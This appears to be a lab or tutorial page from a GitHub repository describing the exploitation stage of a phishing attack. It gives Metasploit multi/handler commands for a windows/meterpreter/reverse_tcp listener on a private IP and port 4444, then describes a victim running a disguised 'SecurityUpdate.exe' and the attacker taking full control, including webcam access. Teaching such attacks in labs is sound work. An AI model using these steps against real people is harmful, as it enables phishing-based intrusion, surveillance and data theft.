 # Exploitation

## Objective:
Activate the payload to execute the attack and gain control over the target system.

## Steps for Exploitation

1. Prepare the Metasploit Framework

    Now that we’ve sent the phishing email and the target has clicked the malicious link, we need to activate the payload using **Metasploit**.

    - **Run the command**: `msfconsole` to start the Metasploit console.

    - Then, use the exploit handler by entering the following command:
```
use exploit/multi/handler
```
- This configures the Metasploit framework to handle incoming connections from the payload on the target system.

![image](https://github.com/user-attachments/assets/2b9f26c2-9ef3-47ae-87fa-c33ac937abcb)

2. Configure the Exploit Settings

    Configure Metasploit to match the parameters used when creating the payload:

- Set **PAYLOAD** to `windows/meterpreter/reverse_tcp`
- Set **LHOST** to the attacker's IP address (the system that the victim will connect to).
- Set **LPORT** to the port that the attacker's machine is listening on.
- **Run** the Exploit

### Command Example:

```
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.19.19.134
set LPORT 4444
run
```

This ensures the reverse shell connects back to the attacker’s system on the correct IP and port.

3. Victim Downloads the Malicious Payload

    The victim opens the phishing email, clicks the link, and downloads the **SecurityUpdate.exe** file.

![image](https://github.com/user-attachments/assets/727ac1fe-d2f3-4f0a-886b-39619320f277)

Once the victim opens the **SecurityUpdate.exe** file, the payload will execute.

![image](https://github.com/user-attachments/assets/a1f11d44-0b7f-47bf-b7c2-63e06be8b66f)

4. Payload Execution and Connection
After the victim runs the malicious executable, a **Meterpreter shell** will open, connecting back to the attacker’s system.

![image](https://github.com/user-attachments/assets/38168808-8813-4f6a-9327-de80528a6a59)

![image](https://github.com/user-attachments/assets/b5b94c08-9f92-4cf6-9e9a-575f3d13b081)

![image](https://github.com/user-attachments/assets/b01d20c0-13e1-4d1d-a0fb-fde0962935a3)

![image](https://github.com/user-attachments/assets/7d67db6a-c265-41e8-a02d-af983018a56f)

![image](https://github.com/user-attachments/assets/ef287ea3-238b-4122-ad24-e7674a4fa523)

The attacker now has full control over the victim's system via the **Meterpreter shell**.

5. Full Control with Meterpreter

    The Meterpreter session provides the attacker with extensive control over the compromised system. The attacker can now run commands, gather information, and escalate privileges.

    Additional actions like browsing the file system, capturing screenshots, or even enabling the webcam can be done using Meterpreter.

6. Post-Exploitation

    The attacker can now explore the compromised system, gather sensitive data, or escalate privileges to gain higher access.




